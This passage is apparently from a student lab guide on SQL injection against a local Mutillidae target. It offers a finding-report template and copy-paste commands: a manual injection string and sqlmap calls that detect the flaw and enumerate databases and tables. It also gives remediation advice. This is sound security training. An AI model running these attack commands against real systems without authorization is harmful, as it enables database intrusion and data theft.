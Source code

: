 ## 12) Minimal lab report template (copy-paste into `finding_summary.md`)

```
# Finding Summary — EXPT-08 SQL Injection using sqlmap
**Student:** <Your Name>
**Date:** <dd-mm-yyyy>
**Target:** http://localhost/mutillidae/
**Tools:** Kali Linux, Burp Suite, sqlmap

## Steps performed
1. Performed quick manual check by injecting `' OR '1'='1` into `id` parameter and observed changed output (see evidence/01_manual_test.png).
2. Saved the exact HTTP request from Burp as `request.txt` (evidence/02_request_txt).
3. Ran sqlmap safely: `sqlmap -r request.txt --batch --level=1 --risk=1 -v 2 --output-dir=output_sqlmap`. Output saved as `evidence/03_sqlmap_output.txt`.
4. Enumerated databases (`--dbs`) and tables (`--tables`) and saved results in evidence.
5. (Optional, instructor-permitted) Dumped small sample of `products` table limited to 3 rows; saved as `evidence/06_sqlmap_dump_sample.csv`.

## Key findings
- [High] Parameter `id` in `product.php?id=` is vulnerable to SQL injection (sqlmap detection). Evidence: `evidence/03_sqlmap_output.txt`.
- [Info] Enumerated DB names: `schooldb`, `mutillidae_db` (example). Evidence: `evidence/04_sqlmap_dbs.txt`.

## Remediation
- Use prepared statements/parameterized queries.
- Use least-privileged DB user accounts and validate inputs server-side.
- Disable verbose error messages and implement logging/WAF.

## Commands run
- sqlmap -r request.txt --batch --level=1 --risk=1 -v 2 --output-dir=output_sqlmap
- sqlmap -r request.txt --dbs --batch
- sqlmap -r request.txt -D <dbname> --tables --batch

## Conclusion
Demonstrated detection and safe enumeration of SQLi vulnerability on a lab target. Recommended immediate removal of direct string concatenation in SQL, use of parameterized queries, and application of least privilege. Evidence is in the `evidence/` folder.
```

---

## 13) Appendix — commands & quick tips (copy-paste)

```bash
# workspace
mkdir -p ~/expt08/evidence
cd ~/expt08

# capture a request in Burp and save as request.txt (do in Burp UI)

# safe sqlmap quick test (non-interactive)
sqlmap -r request.txt --batch --level=1 --risk=1 -v 2 --threads=3 --output-dir=output_sqlmap > evidence/03_sqlmap_output.txt 2>&1

# enumerate DBs
sqlmap -r request.txt --dbs --batch --level=2 > evidence/04_sqlmap_dbs.txt

# enumerate tables of a chosen DB (example)
sqlmap -r request.txt -D schooldb --tables --batch > evidence/05_sqlmap_tables.txt

# dump a limited set of columns/rows (only with permission)
```